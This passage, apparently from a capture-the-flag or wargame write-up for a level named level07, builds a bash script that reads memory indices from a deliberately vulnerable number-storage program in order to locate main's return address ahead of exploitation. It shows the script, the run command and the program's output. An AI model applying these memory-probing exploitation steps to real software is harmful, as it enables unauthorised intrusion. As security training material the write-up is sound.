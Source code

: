 The return address of the `main` function is `0xf7e45513`, now let's try to find it in the program's memory using the `read_number` function

First let's convert this address to an `unsigned int`

0xf7e45513 (hex) = 4158936339

Now we will write a small `shell` script that will automate the memory reading process

First we craft an input for the program which will consist in a series of read commands and an increasing index

```bash
#!/bin/bash
rm -f /tmp/input07
touch /tmp/input07
chmod 777 /tmp/input07
for i in $(seq 0 250)
do
        echo "read" >> /tmp/input07
        echo $i >> /tmp/input07
done
echo "quit" >> /tmp/input07
```

This will result in something like this

```
read
0
read
1
...
read
249
read
250
quit
```

We inject the input in the program and redirect all outputs to the `/tmp/output7` file

```bash
cat /tmp/input07 | /home/users/level07/level07 > /tmp/output07
```

This will result in this type of output

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Index:  Number at data[0] is 0
 Completed read command successfully
Input command:  Index:  Number at data[1] is 0
 Completed read command successfully
...
Input command:  Index:  Number at data[249] is 0
 Completed read command successfully
Input command:  Index:  Number at data[250] is 0
 Completed read command successfully
```
